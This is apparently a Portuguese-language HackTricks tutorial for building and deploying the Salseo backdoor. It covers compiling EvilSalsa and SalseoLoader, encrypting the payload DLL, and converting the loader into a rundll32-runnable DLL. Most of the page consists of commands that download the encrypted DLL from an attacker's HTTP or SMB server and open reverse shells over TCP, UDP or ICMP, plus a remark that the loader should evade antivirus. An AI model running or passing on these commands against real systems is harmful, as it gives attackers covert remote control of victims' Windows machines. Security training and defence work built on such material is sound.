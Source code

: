 # Salseo

{{#include ../banners/hacktricks-training.md}}

## Compilando os binários

Baixe o código-fonte do github e compile **EvilSalsa** e **SalseoLoader**. Você precisará do **Visual Studio** instalado para compilar o código.

Compile esses projetos para a arquitetura da máquina Windows onde você vai usá-los (Se o Windows suportar x64, compile-os para essa arquitetura).

Você pode **selecionar a arquitetura** dentro do Visual Studio na **aba "Build" à esquerda** em **"Platform Target".**

(**Se você não encontrar essas opções, clique na **"Project Tab"** e depois em **"\<Project Name> Properties"**)

![](<../images/image (132).png>)

Em seguida, construa ambos os projetos (Build -> Build Solution) (Dentro dos logs aparecerá o caminho do executável):

![](<../images/image (1) (2) (1) (1) (1).png>)

## Preparar o Backdoor

Primeiramente, você precisará codificar o **EvilSalsa.dll.** Para isso, você pode usar o script python **encrypterassembly.py** ou pode compilar o projeto **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, agora você tem tudo o que precisa para executar toda a coisa do Salseo: o **EvilDalsa.dll codificado** e o **binário do SalseoLoader.**

**Faça o upload do binário SalseoLoader.exe para a máquina. Eles não devem ser detectados por nenhum AV...**

## **Executar o backdoor**

### **Obtendo um shell reverso TCP (baixando dll codificada através de HTTP)**

Lembre-se de iniciar um nc como o ouvinte do shell reverso e um servidor HTTP para servir o evilsalsa codificado.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Obtendo um shell reverso UDP (baixando dll codificada através do SMB)**

Lembre-se de iniciar um nc como o ouvinte do shell reverso e um servidor SMB para servir o evilsalsa codificado (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Obtendo um shell reverso ICMP (dll codificada já dentro da vítima)**

**Desta vez você precisa de uma ferramenta especial no cliente para receber o shell reverso. Baixe:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Desativar Respostas ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Execute o cliente:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Dentro da vítima, vamos executar a coisa do salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Compilando SalseoLoader como DLL exportando a função principal

Abra o projeto SalseoLoader usando o Visual Studio.

### Adicione antes da função principal: \[DllExport]

![](<../images/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Instale DllExport para este projeto

#### **Ferramentas** --> **Gerenciador de Pacotes NuGet** --> **Gerenciar Pacotes NuGet para a Solução...**

![](<../images/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Pesquise pelo pacote DllExport (usando a aba Navegar) e pressione Instalar (e aceite o popup)**

![](<../images/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Na sua pasta do projeto, apareceram os arquivos: **DllExport.bat** e **DllExport_Configure.bat**

### **Des**instalar DllExport

Pressione **Desinstalar** (sim, é estranho, mas confie em mim, é necessário)

![](<../images/image (5) (1) (1) (2) (1).png>)

### **Saia do Visual Studio e execute DllExport_configure**

Apenas **saia** do Visual Studio

Em seguida, vá para sua **pasta SalseoLoader** e **execute DllExport_Configure.bat**

Selecione **x64** (se você for usá-lo dentro de uma caixa x64, esse foi o meu caso), selecione **System.Runtime.InteropServices** (dentro de **Namespace for DllExport**) e pressione **Aplicar**

![](<../images/image (7) (1) (1) (1) (1).png>)

### **Abra o projeto novamente com o Visual Studio**

**\[DllExport]** não deve mais estar marcado como erro

![](<../images/image (8) (1).png>)

### Compile a solução

Selecione **Tipo de Saída = Biblioteca de Classes** (Projeto --> Propriedades do SalseoLoader --> Aplicativo --> Tipo de saída = Biblioteca de Classes)

![](<../images/image (10) (1).png>)

Selecione **plataforma x64** (Projeto --> Propriedades do SalseoLoader --> Compilar --> Alvo da plataforma = x64)

![](<../images/image (9) (1) (1).png>)

Para **compilar** a solução: Compilar --> Compilar Solução (Dentro do console de saída, o caminho da nova DLL aparecerá)

### Teste a Dll gerada

Copie e cole a Dll onde você deseja testá-la.

Execute:
```
rundll32.exe SalseoLoader.dll,main
```
Se nenhum erro aparecer, provavelmente você tem um DLL funcional!!

## Obter um shell usando o DLL

Não se esqueça de usar um **servidor** **HTTP** e configurar um **listener** **nc**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{{#include ../banners/hacktricks-training.md}}
